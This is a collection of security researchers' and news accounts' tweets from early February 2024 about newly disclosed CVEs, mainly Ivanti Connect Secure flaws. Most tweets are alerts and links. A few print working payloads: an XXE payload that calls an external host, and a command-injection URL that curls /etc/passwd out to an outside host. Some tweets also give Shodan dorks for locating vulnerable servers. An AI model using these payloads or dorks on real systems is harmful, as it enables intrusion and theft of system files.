Regarding the latest Ivanti Pulse Secure vulnerability disclosure - they claimed they found CVE-2024-22024 internally and it's not under active exploitation.  Both are false.

@watchtowrcyber reported it, and it's under active exploitation. https://t.co/nLVHeozzat https://t.co/Z97lqaiag2
</blockquote>

* https://labs.watchtowr.com/are-we-now-part-of-ivanti/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1755930874086867113 _at 2024-02-09, 12:25:18_**
<blockquote>
RT @watchtowrcyber: 🚀Ivanti Connect Secure CVE-2024-22024 

we've released our watchTowr Labs blog post, containing a little bit of comment…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1755901649103859929 _at 2024-02-09, 10:29:10_**
<blockquote>
RT @watchtowrcyber: 🚀Ivanti Connect Secure CVE-2024-22024 

we've released our watchTowr Labs blog post, containing a little bit of comment…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1755849867149103106 _at 2024-02-09, 07:03:25_**
<blockquote>
CVE-2024-22024,  XXE on Ivanti Connect Secure

payload encoded base64:

&lt;?xml version="1.0" ?&gt;&lt;!DOCTYPE root [&lt;!ENTITY % xxe SYSTEM "http://{{external-host}}/x"&gt; %xxe;]&gt;&lt;r&gt;&lt;/r&gt;

send it to  127.0.0.1/dana-na/auth/saml-sso.cgi with SAMLRequest parm

#bugbountytips #cve #Ivanti https://t.co/ShIkDghTU0
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>611</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1755828037499699313 _at 2024-02-09, 05:36:40_**
<blockquote>
🛑 Urgent: Patch it now - Hackers are exploiting it!

Fortinet has unveiled a critical security flaw in its SSL VPN, CVE-2024-21762, allowing hackers to execute arbitrary code.

Learn more: https://t.co/n0hVxPbOkv

#cybersecurity #hacking #informationsecurity
</blockquote>

* https://thehackernews.com/2024/02/fortinet-warns-of-critical-fortios-ssl.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>163</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# CyberGovAU
**https://twitter.com/CyberGovAU/status/1755819801761419528 _at 2024-02-09, 05:03:56_**
<blockquote>
❗ ALERT ❗ There is a critical vulnerability in Fortinet FortiOS devices (CVE-2024-21762), allowing Unauthenticated RCE via a specifically crafted HTTP request.

Organisations and government entities should patch affected devices and disable SSL VPN. 👉https://t.co/0QqE6irngS https://t.co/hpfjw9t5hD
</blockquote>

* https://www.cyber.gov.au/about-us/view-all-content/alerts-and-advisories/critical-vulnerability-fortios

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1755798397926121758 _at 2024-02-09, 03:38:53_**
<blockquote>
🚨 Deja Vu for #Ivanti users!

Another authentication bypass security #vulnerability (CVE-2024-22024) has been found in #Ivanti products, affecting Connect Secure, Policy Secure, and ZTA gateways.

Details: https://t.co/6xenKORskr

Don't wait, patch ASAP to secure your devices!
</blockquote>

* https://thehackernews.com/2024/02/warning-new-ivanti-auth-bypass-flaw.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>130</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1755362022856822901 _at 2024-02-07, 22:44:53_**
<blockquote>
RT @TheHackersNews: ⚠️ Patch Alert → Critical #vulnerability in #JetBrains' TeamCity On-Premises (CVE-2024-23917) allows unauthenticated re…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# nav1n0x
**https://twitter.com/nav1n0x/status/1755336222937886728 _at 2024-02-07, 21:02:22_**
<blockquote>
Use @Chocapikk_ CVE-2024-21887 exploit tool to get easy shell on vulnerable endpoints.  https://t.co/pkl2cFC5yH

#bugbounty https://t.co/toRgmdqXV9
</blockquote>

* https://github.com/Chocapikk/CVE-2024-21887/blob/main/exploit.py

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1755223237875700027 _at 2024-02-07, 13:33:25_**
<blockquote>
🔥 A critical #vulnerability has been found in the shim bootloader, leaving millions of #Linux systems vulnerable to attack.

Learn more about CVE-2023-40547: https://t.co/fjKdsw6BGV

Update your device immediately if it uses shim and Secure Boot.
</blockquote>

* https://thehackernews.com/2024/02/critical-bootloader-vulnerability-in.html

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>234</code></td>
</tr></table>

---

# nav1n0x
**https://twitter.com/nav1n0x/status/1755214246084780315 _at 2024-02-07, 12:57:41_**
<blockquote>
Got my first CVE-2424-21887 - Ivanti code-injection report triaged, got 4 duplicates so far. #BugBounty https://t.co/OlKj8UfM1y
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>328</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1755154439441174688 _at 2024-02-07, 09:00:02_**
<blockquote>
CVE-2024-20931: Vuln in Oracle WebLogic, 7.5 rating❗️

Simple vulnerability allows an unauth attacker to gain access to data on the server or perform RCE. PoC is now available!

Search at https://t.co/hv7QKSqxTR:
👉🏻 Link: https://t.co/mmbAlp7IS6

#cybersecurity #vulnerability_map https://t.co/ONbFpmXYrv
</blockquote>

* http://Netlas.io
* https://nt.ls/sdatT

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1755096609753358352 _at 2024-02-07, 05:10:14_**
<blockquote>
⚠️ Patch Alert → Critical #vulnerability in #JetBrains' TeamCity On-Premises (CVE-2024-23917) allows unauthenticated remote attackers to gain administrative control and take over servers.

Learn more: https://t.co/k0qzQCCWwR

#cybersecurity #informationsecurity
</blockquote>

* https://thehackernews.com/2024/02/critical-jetbrains-teamcity-on-premises.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1754915649225212318 _at 2024-02-06, 17:11:10_**
<blockquote>
CVE-2023-46263: The Trend Research Team takes a look at a recently patched #Ivanti Avalanche bug that allows an authenticated attacker to execute code in the context of SYSTEM. They include source code analysis and detection guidance. Check the details at https://t.co/7tnMOMSCYz
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/2/5/cve-2023-46263-ivanti-avalanche-arbitrary-file-upload-vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1754774953742729486 _at 2024-02-06, 07:52:05_**
<blockquote>
RT @TheHackersNews: A recently disclosed SSRF #vulnerability (CVE-2024-21893) in Ivanti Connect Secure and Policy Secure products is now un…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1754762881122603290 _at 2024-02-06, 07:04:07_**
<blockquote>
🚨Alert🚨CVE-2024-20931 Oracle A RCE vuln based on Weblogic T3\IIOP protocol 
POC Released
📊10.9K+ Services are found on the https://t.co/WrjZaG0jRH
🔗Hunter:https://t.co/Md98R2woCN
Dorks 👇👇👇
Hunter:/product.name="WebLogic Server"
FOFA: protocol="WebLogic"
Shodan: https://t.co/Mhv5b17kiP
</blockquote>

* http://Hunter.how
* https://hunter.how/list?searchValue=product.name%3D%22WebLogic%20Server%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1754761896345862326 _at 2024-02-06, 07:00:12_**
<blockquote>
A recently disclosed SSRF #vulnerability (CVE-2024-21893) in Ivanti Connect Secure and Policy Secure products is now under mass exploitation.

Learn more: https://t.co/7s4pkWvdDx

Patch now to protect your organization from system takeover.
</blockquote>

* https://thehackernews.com/2024/02/recently-disclosed-ssrf-flaw-in-ivanti.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1754736070510452944 _at 2024-02-06, 05:17:35_**
<blockquote>
CVE-2024-0031: Critical Android Remote Code Execution Vulnerability https://t.co/G9wFjhWTOH
</blockquote>

* https://securityonline.info/cve-2024-0031-critical-android-code-execution-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1754366907019387156 _at 2024-02-05, 04:50:39_**
<blockquote>
Escaping the Sandbox: CVE-2024-21399 Microsoft Edge RCE Vulnerability https://t.co/KAxwU9XRfK
</blockquote>

* https://securityonline.info/escaping-the-sandbox-cve-2024-21399-microsoft-edge-rce-vulnerability/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# htrowii
**https://twitter.com/htrowii/status/1754187925968032134 _at 2024-02-04, 16:59:27_**
<blockquote>
Got a working POC for CVE-2024-23208 UaF in one app. It uses the keyboard extension for the receiver.
Instructions to crash your phone:
Press go
Open the keyboard
Clear the app
Github: https://t.co/LXA6yW5Ul5
</blockquote>

* https://github.com/hrtowii/CVE-2024-23208-test

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1753950145580879883 _at 2024-02-04, 01:14:36_**
<blockquote>
RT @infosec_au: The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1753808306668195911 _at 2024-02-03, 15:50:59_**
<blockquote>
RT @infosec_au: The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753728099873693886 _at 2024-02-03, 10:32:16_**
<blockquote>
CVE-2023-31505: Schlix CMS Flaw Exposes Websites to RCE, No Patch Available https://t.co/VHNFaVvtCC
</blockquote>

* https://securityonline.info/cve-2023-31505-schlix-cms-flaw-exposes-websites-to-rce-no-patch-available/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1753706987739845020 _at 2024-02-03, 09:08:22_**
<blockquote>
RT @DhiyaneshDK: 🚨 CVE-2024-21893 - Ivanti SAML - Server Side Request Forgery (SSRF) - [HIGH]

Nuclei Template : https://t.co/55uoZubwnV @p…
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-21893.yaml

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# DhiyaneshDK
**https://twitter.com/DhiyaneshDK/status/1753704828457377805 _at 2024-02-03, 08:59:48_**
<blockquote>
🚨 CVE-2024-21893 - Ivanti SAML - Server Side Request Forgery (SSRF) - [HIGH]

Nuclei Template : https://t.co/55uoZubwnV @pdnuclei

#hackwithautomation #bugbounty #cve2023 #Ivanti https://t.co/ftGTQudUhm
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-21893.yaml

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>236</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1753703040597770241 _at 2024-02-03, 08:52:41_**
<blockquote>
💀 SSRF leading to RCE in Ivanti Connect Secure. (CVE-2024-21893)

Dork for Shodan:
 http.favicon.hash:-1439222863 html:"welcome.cgi?p=logo"

#web #cve #ssrf #rce #dork #bug https://t.co/rYEjcH9AFA
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>231</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1753694315220554187 _at 2024-02-03, 08:18:01_**
<blockquote>
RT @TheHackersNews: ⚡ #Mastodon users, beware!

A critical security flaw (CVE-2024-23832) affecting the decentralized social network could…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753677852807987514 _at 2024-02-03, 07:12:36_**
<blockquote>
RT @infosec_au: The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1753672901675426196 _at 2024-02-03, 06:52:56_**
<blockquote>
⚡ #Mastodon users, beware!

A critical security flaw (CVE-2024-23832) affecting the decentralized social network could allow attackers to impersonate and take over any account.

Find details here → https://t.co/OOB8mDNCQX

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/02/mastodon-vulnerability-allows-hackers.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1753666094546780326 _at 2024-02-03, 06:25:53_**
<blockquote>
The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved with a fully blind SSRF vulnerability (RCE).
 
Read the @assetnote blog here which includes a  reliable payload and generation steps: https://t.co/cOYpmbWHrS
</blockquote>

* https://www.assetnote.io/resources/research/ivantis-pulse-connect-secure-auth-bypass-round-two

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1753614303347810658 _at 2024-02-03, 03:00:05_**
<blockquote>
Analysis of VirtualBox CVE-2023-21987 and CVE-2023-21991 https://t.co/iR0dIHO0WL #pentesting  #VirtualBox  #cybersecurity #Infosec https://t.co/3iTpVsxMOE
</blockquote>

* https://qriousec.github.io/post/vbox-pwn2own-2023/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1753562825958567981 _at 2024-02-02, 23:35:31_**
<blockquote>
RT @stephenfewer: We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivan…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1753559912779546954 _at 2024-02-02, 23:23:57_**
<blockquote>
CVE-2024-21893 Ivanti Connect Secure  SSRF to CVE-2024-21887 RCE 

https://t.co/gQGmC9Zb8n

https://t.co/G2hE2Ie9kD

http://127.0.0.1:8090/api/v1/license/keys-status/;curl -X POST -d @/etc/passwd https://t.co/f1OC82e4PX; https://t.co/0BKDAAU9E3
</blockquote>

* https://github.com/h4x0r-dz/CVE-2024-21893.py
* https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis
* http://xxxxxxxx.oastify.com

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>489</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753517415839719573 _at 2024-02-02, 20:35:05_**
<blockquote>
RT @stephenfewer: We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivan…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1753512744483954877 _at 2024-02-02, 20:16:31_**
<blockquote>
RT @stephenfewer: We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivan…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# stephenfewer
**https://twitter.com/stephenfewer/status/1753506445377585459 _at 2024-02-02, 19:51:29_**
<blockquote>
We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivanti Connect Secure, that has recently been exploited in the wild, allowing attackers bypass the mitigation for an earlier exploit chain. https://t.co/tVgUCrp1KH
</blockquote>

* https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1753470924634964210 _at 2024-02-02, 17:30:21_**
<blockquote>
Interesting blog post on exploiting VirtualBox on Windows (CVE-2023-21987 and CVE-2023-21991)

https://t.co/E3vPy2raRR

#virtualbox #cybersecurity https://t.co/Mry3edQeqj
</blockquote>

* https://qriousec.github.io/post/vbox-pwn2own-2023/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>252</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1753447680578331049 _at 2024-02-02, 15:57:59_**
<blockquote>
RT @TheHackersNews: Hackers could write ANY file on your #GitLab server while creating a workspace. This critical flaw (CVE-2024-0402) affe…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1753447051361484906 _at 2024-02-02, 15:55:29_**
<blockquote>
RT @TheHackersNews: 🚨 A new glibc flaw (CVE-2023-6246) gives attackers root access on #Linux.

This high-severity #vulnerability impacts ma…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1753447031929241959 _at 2024-02-02, 15:55:24_**
<blockquote>
RT @TheHackersNews: Hackers could write ANY file on your #GitLab server while creating a workspace. This critical flaw (CVE-2024-0402) affe…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1753438255545192474 _at 2024-02-02, 15:20:32_**
<blockquote>
CVE-2024-20931 Oracle A RCE vuln based on Weblogic T3\IIOP protocol
https://t.co/JhrEZpYniM
</blockquote>

* https://github.com/GlassyAmadeus/CVE-2024-20931

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>165</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1753432473051001251 _at 2024-02-02, 14:57:33_**
<blockquote>
CVE-2024-20931: A new attack surface for JNDI injection.

ref
https://t.co/BvXEisMnfZ https://t.co/QbRKPCd8bE
</blockquote>

* https://glassyamadeus.github.io/2024/01/31/CVE_2024_20931/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1753382939587760271 _at 2024-02-02, 11:40:43_**
<blockquote>
CVE-2024-21626 runc container escape can be exploited on docker build if you can control the Docker file. https://t.co/7PYxzOVGCu
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1753371723762954673 _at 2024-02-02, 10:56:09_**
<blockquote>
RT @lobuhisec: Kubernetes PoC for CVE-2024-21626:

apiVersion: v1
kind: Pod
metadata:
  name: cve202421626
spec:
  containers:
  - name: ub…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1753201969206825131 _at 2024-02-01, 23:41:37_**
<blockquote>
CVE-2024-21733: Generation of Error Message Containing Sensitive Information vulnerability in Apache Tomcat.This issue affects Apache Tomcat: from 8.5.7 through 8.5.63, from 9.0.0-M11 through 9.0.43. Users https://t.co/OZIziCU8LS
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1753173344134857135 _at 2024-02-01, 21:47:52_**
<blockquote>
RT @CISACyber: 🚨 New Ivanti software updates address previously noted #CVE-2023-46805 &amp; CVE-2024-21887 as well as two newly identified vuln…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753001666033467766 _at 2024-02-01, 10:25:41_**
<blockquote>
Millions of Routers at Risk: CVE-2024-21833 Threatens TP-Link Devices https://t.co/fVgEKAQf8f
</blockquote>

* https://securityonline.info/millions-of-routers-at-risk-cve-2024-21833-threatens-tp-link-devices/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>188</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1752941316055486899 _at 2024-02-01, 06:25:52_**
<blockquote>
CVE-2023-6246: Heap-based buffer #overflow in the #glibc's syslog()

* another awesome vuln/xdev by @qualys 

* love the reference to @solardiz’s exploit from 1997 at https://t.co/kT1u2KyDsR 

* snprintf() return value behavior is a common source of bugs

https://t.co/hxf0bJIK89
</blockquote>

* http://insecure.org
* https://www.qualys.com/2024/01/30/cve-2023-6246/syslog.txt

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

